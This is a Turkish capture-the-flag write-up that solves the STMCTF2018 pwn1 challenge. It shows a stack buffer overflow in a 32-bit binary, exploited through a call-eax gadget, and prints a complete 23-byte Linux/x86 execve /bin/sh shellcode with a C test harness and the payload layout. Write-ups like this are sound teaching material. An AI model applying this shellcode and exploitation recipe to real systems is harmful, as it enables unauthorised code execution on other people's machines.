 ## STMCTF2018 pwn1 sorusu çözümü

Çoğu soruda olduğu gibi bir dosya verildi ve hemen altında sunucu adresi. Bağlantı için ise nc verilmiş. Sunucunun adresi şu an aklımda olmadığı için kısaca x.x.x.x kullanabiliriz. Tabi şu an için bağlantı mümkün olmadığı için biz local olarak sahte bir flag yapıp bunu kullanacağız.


Bu soruyu görünce hemen karşı sunucuda bu programın barındırdığı kodların çalıştığını anlıyoruz. local olarak çözüp sunucuyu pwn edeceğiz.

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/1.png)

Dosyaya hızlıca baktığımızda 32 bit linux ELF formatında olduğunu görüyoruz.

İlk önce hemen blind bir şekilde başlatıp ne yapıyor ne ediyor görelim.

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/2.png)

Hiç bişey olmadı. Basit ve ilk tahmin ile acaba overflow olabilir mi diye biraz uzun bir input girelim:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/3.png)

Evet! Overflow var. Hatta trace edelim:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/4.png)

Bundan sonrası pattern bulma. Input kısa olduğu için çok uğraşmaya gerek yok yarısı A olacak ve yarısı B olacak şekilde birkaç denemeden sonra patternin 28 olduğu ortaya cıkıyor. Yani 28 uzunluğunda pattern girdikten sonra return adresi verebiliyoruz. Test edelim:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/5.png)

Evet artık EIP bizim kontrolümüz altında. Öncelikle NX(Non-executable stack) var mı diye kontrol edebiliriz, fakat yarışma açısından konulmadığını tahmin etmek zor değil:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/6.png)

Şimdi biraz derine inelim ve neler olduğuna biraz bakalım. Bunun için gdb ile debug edip return adresinin olduğu noktada tam olarak register durumları nedir bakalım:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/7.png)

Bu resimden anladığımız önemli iki şey:

* ESP = EAX+ 28(pattern ‘A’) + RET(return address ‘B’)
* Girdiğimiz input EAX registerında saklanmış

Bu noktada aklımızda gelen şey EAX registerına atlasak yazdığımız kodlar çalışır. Shellcode yerleştirip oraya atlamalıyız. Bunun için ise bize bunu sağlayacak bir tür gadget lazım. Programın kendi içinde bir tür call varsa işimizi tamamen görür. Bir arama yapalım bu dosya üzerinde:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/8.png)

Tam da istediğimiz şey varmış. 0x8048373 adresi işimizi görür.

Şimdi şöyle bir durum var(yazının ilerleyen kısmında bunu da aşacağız) bizim elimizde 28 var sonra ise return address ordan kesiyor. Bize 28’den kısa bir shellcode lazım. Google’da “Linux x86 shellcode” diye aratırsak çok kısa shellcodelar olduğunu görürüz. Kendimiz de yazabiliriz fakat yarışmada her dakikanın önemli olduğunu hesaba katarsak Google daha hızlı.

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/shell.png)

Sadece 23 byte! Gayet güzel oldu. 

```c
    *****************************************************
    *    Linux/x86 execve /bin/sh shellcode 23 bytes    *
    *****************************************************
    *	  	  Author: Hamza Megahed		        *
    *****************************************************
    *             Twitter: @Hamza_Mega                  *
    *****************************************************
    *     blog: hamza-mega[dot]blogspot[dot]com         *
    *****************************************************
    *   E-mail: hamza[dot]megahed[at]gmail[dot]com      *
    *****************************************************

xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80

********************************
#include <stdio.h>
#include <string.h>
 
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		  "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

int main(void)
{
fprintf(stdout,"Length: %d\n",strlen(shellcode));
(*(void(*)()) shellcode)();
return 0;
}
```

http://shell-storm.org/shellcode/files/shellcode-827.php

Shellcode test edelim:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/9.png)

Gayet güzel çalışıyor.
NOT: Test etmek için x86 kullanmak için -m32 parametresi ekledik sonuçta hedefimiz x86 ve yazının başında değindiğimiz nokta olan NX’i devre dışı bırakmak için -z execstack ekledik. Onu eklemezsek çalıştırdığımızda hata alırız. 

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/10.png)

Elimizde ihtiyacımız olan şeyler var şimdi payload build edelim. 

İlk önce shellcode yazıyoruz ve 5 byte padding ekliyoruz (23 + 5) ve sonra ise return adresi olarak “call eax” adresini verirsek oraya atlayıp hemen EAX’a atlayacak. Orda ise shellcode var. 

Shellcode + “A”*5 + 0x8048373

Not: little-endian dolayısıyla tersten yazmamız lazım.

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/11.png)

Test edelim:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/12.png)

Hata aldık! 

Bu konuda tecrübeli arkadaşlarımız zaten hemen nedenini anlamıştır. Yukarda da aslında ipucu vardı. Yazının yukarısında burda 2 önemli şey var demiştik. Bir tanesi ESP = EAX + 32. Yukarda shellcode fotoğrafında 5 adet push olduğunu görüyoruz. Bunu tam anlayamayan arkadaşlar debug edip A harflerini girdikten sonra memory set yaparlarsa exploiti manuel yerleştirip return adresini call eax yaparlarsa ve shellcode executiondan itibaren izlerlerse her push operationdan sonra shellcode’un geriden değiştiğini görürler. Bizim tek yapmamız gereken şey shellcode’un başına esp’ye eklemek:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/13.png)

```asm
section .text
	global _start

_start:

	add	esp,36
```

Bize lazım olan şey 3 byte ve artık shellcodemuz 23+3 = 26 byte uzunlukta. Yeni payload:

Addesp + shellcode + 2bytepadding + ret

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/14.png)

NOT: utf8 coding unutmayın.

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/15.png)

x.x.x.x girmek.

Üstünde oynamak

28 byte şekilli afilli birşey için kısa fakat bu durumu aşmak için lea kullanabiliriz. Return olduktan sonra call eax yapacak eğer ki biz oraya:

```asm
lea edx, [eax+40]
call edx
```

Gibi birşey yaparsak return adresinden sonraya atlarız oraya istediğimiz kadar şey yapabiliriz. 

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/16.png)

Flag.txt olduğunu bildiğimden flag.txt yazdım.
